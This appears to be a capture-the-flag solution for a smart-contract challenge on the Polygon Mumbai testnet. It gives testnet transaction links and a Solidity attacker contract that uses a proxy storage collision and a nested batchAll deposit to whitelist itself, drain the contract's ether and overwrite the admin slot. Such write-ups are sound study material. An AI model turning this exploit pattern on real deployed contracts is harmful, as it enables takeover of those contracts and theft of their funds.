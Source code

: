 ## Solution:

Network: ploygon matic

addressWallet address: 0x6CF41c181AF032E13C7E561F742346F092E7AcFF

tx: https://mumbai.polygonscan.com/tx/0x0c28de4772d03062086d8e9ea3b44c86a49724e8cfb6e31f59671b2161a292d1

tx: https://mumbai.polygonscan.com/tx/0x341496e99080993058183c2e22e9a5551d29275d638c8922d77bc8883b7eea2c

https://mumbai.polygonscan.com/address/0x9bcb9c6b8aa1045a6382a81c279ea81711a434c0#code

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
pragma experimental ABIEncoderV2;

// import "hardhat/console.sol";

interface BeaconAUniSwap {
    function setLimit(uint256 _maxBalance) external;

    function initializeContract(uint256 _maxBalance) external;

    function addEth() external payable;

    function addToWL(address addr) external;

    function execute(
        address to,
        uint256 value,
        bytes calldata data
    ) external payable;

    function batchAll(bytes[] calldata data) external payable;

    function proposeBeacon(address _newAdmin) external;

    function approveBeacon(address _expectedAdmin) external;
}

contract CallHackMe {
    function callBeacon(BeaconAUniSwap beaconContract) public payable {
        beaconContract.proposeBeacon(address(this));
        beaconContract.addToWL(address(this));
        bytes[] memory datum1 = new bytes[](1);
        datum1[0] = abi.encodeWithSignature("addEth()");

        bytes[] memory data = new bytes[](2);
        data[0] = datum1[0];
        data[1] = abi.encodeWithSignature("batchAll(bytes[])", datum1);
        beaconContract.batchAll{value: 0.001 ether}(data);
        beaconContract.execute(msg.sender, 0.002 ether, "");
        beaconContract.setLimit(uint256(uint160(msg.sender)));
    }
}

```

